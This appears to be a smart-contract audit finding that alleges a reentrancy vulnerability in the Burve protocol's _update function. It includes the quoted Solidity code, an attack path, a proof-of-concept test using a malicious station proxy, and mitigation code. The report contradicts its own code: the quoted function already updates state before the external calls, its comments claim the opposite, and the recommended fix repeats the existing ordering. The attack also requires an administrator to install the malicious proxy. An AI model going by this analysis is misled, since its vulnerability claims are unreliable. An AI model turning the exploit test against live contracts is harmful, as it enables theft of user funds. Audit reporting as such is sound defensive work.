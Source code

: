 Alert Tiger Fish

High

# Reentrancy Vulnerability in Burve Protocol's _update Function

### Summary

A reentrancy vulnerability in the _update function will cause loss of funds and inconsistent state for the protocol as malicious actors will steal tokens by exploiting incorrect sequencing of external calls and state updates.

### Root Cause

In [Burve.sol:700](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L700) the _update function makes external calls before updating state variables:

```solidity
function _update(
    address from,
    address to,
    uint256 value
) internal virtual override {
    // We handle mints and burns in their respective calls.
    // We just want to handle transfers between two valid addresses.
    if (
        from != address(0) &&
        to != address(0) &&
        address(island) != address(0)
    ) {
        // Move the island shares that correspond to the LP tokens being moved.
        uint256 islandTransfer = FullMath.mulDiv(
            islandSharesPerOwner[from],
            value,
            balanceOf(from)
        );

        islandSharesPerOwner[from] -= islandTransfer;  // State update AFTER external calls
        islandSharesPerOwner[to] += islandTransfer;    // State update AFTER external calls
        
        // External calls before state updates
        stationProxy.withdrawLP(address(island), islandTransfer, from);
        
        SafeERC20.forceApprove(island, address(stationProxy), islandTransfer);
        stationProxy.depositLP(address(island), islandTransfer, to);
        SafeERC20.forceApprove(island, address(stationProxy), 0);
    }

    super._update(from, to, value);
}
```
The function makes external calls to stationProxy.withdrawLP() and stationProxy.depositLP() before updating the state variables. This violates the checks-effects-interactions pattern and creates a reentrancy vulnerability.


### Internal Pre-conditions

1. The Burve protocol must be deployed with an island integration
2. Users must be able to transfer LP tokens
3. A malicious station proxy must be set as the stationProxy of the Burve contract

### External Pre-conditions

None required. The attack can be executed in normal operating conditions.

### Attack Path

1. Attacker deploys a malicious station proxy contract
2. Protocol administrator or deployer sets the malicious station proxy
3. Victim attempts to transfer LP tokens to recipient
4. During the transfer, the malicious proxy's withdrawLP function is called
5. The malicious proxy exploits the reentrancy vulnerability by calling back into the Burve contract before state updates
6. This recursive call transfers the victim's tokens to the attacker instead of the intended recipient
7. The contract finishes execution with an inconsistent state and stolen tokens

### Impact

The protocol suffers from stolen tokens and an inconsistent accounting state. Users may lose their LP tokens and associated island shares, resulting in direct financial loss. The inconsistent state also breaks invariants between token balances and island shares which could lead to additional protocol failures.

### PoC

```solidity
function test_ReentrancyVulnerability_Update() public forkOnly {
    // Deploy malicious station proxy
    MaliciousStationProxy maliciousProxy = new MaliciousStationProxy(address(burve));
    
    // Deploy a fresh Burve instance with the malicious proxy
    TickRange[] memory ranges = new TickRange[](1);
    ranges[0] = TickRange(0, 0);
    uint128[] memory weights = new uint128[](1);
    weights[0] = 1;
    
    BurveExposedInternal vulnerableBurve = new BurveExposedInternal(
        Mainnet.KODIAK_WBERA_HONEY_POOL_V3,
        Mainnet.KODIAK_WBERA_HONEY_ISLAND,
        address(maliciousProxy),
        ranges,
        weights
    );
    
    // First mint some tokens to the contract itself (deadshares)
    deal(address(token0), address(this), type(uint256).max);
    deal(address(token1), address(this), type(uint256).max);
    token0.approve(address(vulnerableBurve), type(uint256).max);
    token1.approve(address(vulnerableBurve), type(uint256).max);
    vulnerableBurve.mint(address(vulnerableBurve), 100, 0, type(uint128).max);
    
    // Mint tokens to alice
    deal(address(token0), alice, type(uint256).max);
    deal(address(token1), alice, type(uint256).max);
    vm.startPrank(alice);
    token0.approve(address(vulnerableBurve), type(uint256).max);
    token1.approve(address(vulnerableBurve), type(uint256).max);
    vulnerableBurve.mint(alice, 10000, 0, type(uint128).max);
    vm.stopPrank();
    
    // Setup malicious proxy for attack
    maliciousProxy.setAttacker(address(charlie));
    maliciousProxy.setAttackEnabled(true);
    
    // Record initial states
    uint256 aliceInitialBalance = vulnerableBurve.balanceOf(alice);
    uint256 charlieInitialBalance = vulnerableBurve.balanceOf(charlie);
    uint256 aliceInitialIslandShares = vulnerableBurve.islandSharesPerOwner(alice);
    uint256 charlieInitialIslandShares = vulnerableBurve.islandSharesPerOwner(charlie);
    uint256 totalInitialIslandShares = vulnerableBurve.totalIslandShares();
    
    // Alice tries to transfer tokens to sender
    vm.startPrank(alice);
    vulnerableBurve.transfer(sender, 5000);
    vm.stopPrank();
    
    // Check final states
    uint256 aliceFinalBalance = vulnerableBurve.balanceOf(alice);
    uint256 senderFinalBalance = vulnerableBurve.balanceOf(sender);
    uint256 charlieFinalBalance = vulnerableBurve.balanceOf(charlie);
    uint256 aliceFinalIslandShares = vulnerableBurve.islandSharesPerOwner(alice);
    uint256 senderFinalIslandShares = vulnerableBurve.islandSharesPerOwner(sender);
    uint256 charlieFinalIslandShares = vulnerableBurve.islandSharesPerOwner(charlie);
    uint256 totalFinalIslandShares = vulnerableBurve.totalIslandShares();
    
    // Verify the reentrancy attack succeeded
    // Charlie should have tokens that were supposed to go to sender
    assertGt(charlieFinalBalance, charlieInitialBalance, "Charlie should have gained tokens through reentrancy");
    
    // The sum of balances might not match due to reentrancy issues
    assertFalse(
        aliceFinalBalance + senderFinalBalance + charlieFinalBalance == aliceInitialBalance,
        "Total token balance should be inconsistent due to reentrancy"
    );
    
    // Island shares accounting should be inconsistent
    assertFalse(
        aliceFinalIslandShares + senderFinalIslandShares + charlieFinalIslandShares == totalFinalIslandShares,
        "Island shares accounting should be inconsistent due to reentrancy"
    );
}
```

### Mitigation

The vulnerability should be fixed by implementing the checks-effects-interactions pattern in the **_update** function:
1. First perform all state updates:
```solidity
// Calculate the transfer amount
uint256 islandTransfer = FullMath.mulDiv(
    islandSharesPerOwner[from],
    value,
    balanceOf(from)
);

// Update state variables first
islandSharesPerOwner[from] -= islandTransfer;
islandSharesPerOwner[to] += islandTransfer;
```
2. Then make external calls:
```solidity
// Make external calls after state updates
stationProxy.withdrawLP(address(island), islandTransfer, from);
SafeERC20.forceApprove(island, address(stationProxy), islandTransfer);
stationProxy.depositLP(address(island), islandTransfer, to);
SafeERC20.forceApprove(island, address(stationProxy), 0);
```
3. Implement ReentrancyGuard Pattern
Add a reentrancy guard to prevent multiple calls into sensitive functions:
```solidity
// Add a state variable
bool private _locked;

// Add a modifier
modifier nonReentrant() {
    require(!_locked, "ReentrancyGuard: reentrant call");
    _locked = true;
    _;
    _locked = false;
}

// Apply the modifier to _update and other sensitive functions
function _update(address from, address to, uint256 value) 
    internal virtual override nonReentrant {
    // existing code
}

```